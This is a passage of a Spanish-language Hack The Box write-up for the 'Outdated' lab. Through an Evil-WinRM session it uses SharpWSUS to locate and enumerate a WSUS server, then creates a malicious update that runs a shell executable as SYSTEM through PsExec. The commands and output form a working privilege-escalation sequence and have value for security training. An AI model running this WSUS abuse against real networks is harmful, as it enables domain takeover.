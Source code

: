 Localizamos el servidor WSUS:

```powershell
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe locate

[...]

[*] Action: Locate WSUS Server
WSUS Server: http://wsus.outdated.htb:8530

[*] Locate complete
```

Inspeccionamos el servidor:

```powershell
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe inspect

[...]

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
DC, 8530, c:\WSUS\WsusContent

####################### Computer Enumeration #######################
ComputerName, IPAddress, OSVersion, LastCheckInTime
---------------------------------------------------
dc.outdated.htb, dead:beef::242, 10.0.17763.1432, 9/13/2022 3:53:49 AM

####################### Downstream Server Enumeration #######################
ComputerName, OSVersion, LastCheckInTime
---------------------------------------------------

####################### Group Enumeration #######################
GroupName
---------------------------------------------------
All Computers
Downstream Servers
Unassigned Computers

[*] Inspect complete
```

Creamos la actualización maliciosa:

```powershell
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe create /payload:"C:\Users\sflowers\Documents\PsExec64.exe" /args:"-accepteula -s -d C:\Users\sflowers\Documents\shell.exe" /title:"Marmeus update"

[...]

[*] Update created - When ready to deploy use the following command:
[*] SharpWSUS.exe approve /updateid:2c71c2a6-c08b-4f2c-9da8-423588eac658 /computername:Target.FQDN /groupname:"Group Name"
                                                    
[*] To check on the update status use the following command:
[*] SharpWSUS.exe check /updateid:2c71c2a6-c08b-4f2c-9da8-423588eac658 /computername:Target.FQDN
                                                                                                         
[*] To delete the update use the following command:
[*] SharpWSUS.exe delete /updateid:2c71c2a6-c08b-4f2c-9da8-423588eac658 /computername:Target.FQDN /groupname:"Group Name"
```
